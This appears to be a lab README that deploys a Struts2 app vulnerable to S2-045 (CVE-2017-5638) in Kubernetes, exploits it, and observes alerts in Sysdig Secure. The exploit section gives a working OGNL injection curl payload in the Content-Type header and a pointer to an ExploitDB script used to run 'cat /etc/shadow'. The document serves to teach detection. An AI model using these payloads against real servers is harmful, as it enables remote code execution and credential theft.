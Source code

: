 # Vulnerable Struts2 (S2-045) Lab 🧪 🔬 

In this lab, you will deploy a Vulnerable Struts2 workload (S2-045 / CVE-2017-5638) in Kubernetes.

1. **Confirm** you can reach the vulnerable app.  
2. **Exploit** it using a simple malicious payload.  
3. **Observe** detection events in Sysdig Secure.

----------

## 1. Access the Struts2 Application 🤖 

-  Your environment can be deployed using the `setup_struts_deployment.sh` file and a pre-configured cluster hosting the Sysdig Detection Agent.  

-  The application will expose on **NodePort 30080**.  

-  Go to `http://localhost:30080` in a browser or use curl:
 
   `curl -v http://localhost:30080`

-  If properly configured - You should recieve a simple file upload form!

-----------

## 2. Exploit 🦠 

- **Trigger the RCE** by issuing and analyzing the output of: 

`curl -v -X POST -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',668.5*2)}.multipart/form-data" http://localhost:30080`

- Alternatively you may use ExploitDB's python exploit @ `https://www.exploit-db.com/exploits/41570`
  Usage: `python2 <script> <url> <command>`

-----------

## 3. **Detection** 🔍 

A clear distinction must be made between the curl payload that stays within Java’s memory (e.g., returning 1337 in a custom header) and one that spawns a system-level process (e.g., cat /etc/shadow).

### Header Injection 
The payload executes in Struts memory, returning **1337** via the vulhub **header**.
No new process, no file access, and no unusual network connections occur.
Sysdig (or any runtime analysis) does not flag this as malicious because it sees no suspicious system calls.


### Python Script (Spawning a Process)
The payload calls `cat /etc/shadow`, causing Java to execute a new child process.
Sysdig sees `/bin/cat /etc/shadow` and raises a **Medium** severity alert because it recognizes unexpected process execution attemtpting to access a sensitive file.
<img width="804" alt="Screenshot 2025-01-09 at 7 21 02 PM" src="https://github.com/user-attachments/assets/c3be3188-2cd3-4819-88d5-0875c7586373" />

### Verify in Sysdig Secure:
Go to **Threats → Sysdig Runtime Notable Events**.
Find the corresponding Event ID (e.g., 18191e49f34866df273474732a500c25).
In summary, a simple header injection won’t trigger Sysdig, but any payload that spawns a process or accesses sensitive resources will. This showcases early detection and the need for refined rulesets within your tools!





